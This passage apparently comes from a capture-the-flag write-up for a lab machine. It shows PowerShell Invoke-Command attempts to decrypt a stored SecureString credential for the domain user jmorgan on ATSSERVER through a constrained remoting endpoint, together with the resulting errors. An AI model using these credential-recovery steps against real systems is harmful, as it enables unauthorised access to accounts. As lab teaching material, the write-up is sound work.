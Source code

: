 ```
    + FullyQualifiedErrorId : ImportSecureString_InvalidArgument_CryptographicError,Microsoft.PowerShell.Commands.ConvertToSecureStringCommand 

```

That’s because these secure password strings are encrypted with information only available on the computer it was encrypted with as the user it was encrypted with.

#### Failure #2

Then perhaps I can decrypt the password on ATSSERVER as imonks. The code does work there:

```

PS C:\Utils> Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

PSComputerName       : ATSSERVER
RunspaceId           : fc350a1c-6b96-49a3-8901-0a3bf4c0b6c2
ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.ObjectId="{8ccfebca-48c0-
                       11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000-0000-100000000000}\"
PassThroughClass     : 
PassThroughIds       : 
PassThroughNamespace : 
PassThroughServer    : 
UniqueId             : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
AllocationUnitSize   : 4096
DedupMode            : 4
DriveLetter          : 
DriveType            : 3
FileSystem           : NTFS
...[snip]...

```

I’ll put all the commands I need into the `ScriptBlock`, and get the plaintext password. Unfortunately, it doesn’t work:

```

PS C:\Utils> Invoke-Command -ScriptBlock { $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c
0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'; $passwd = $securepasswd | ConvertTo-SecureString; $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd); $creds.GetNetworkCredential().Password } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
The term 'ConvertTo-SecureString' is not recognized as the name of a cmdlet, function, script file, or operable 
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (ConvertTo-SecureString:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    + PSComputerName        : ATSSERVER
  
The term 'New-Object' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (New-Object:String) [], CommandNotFoundException                                                                                                                     
```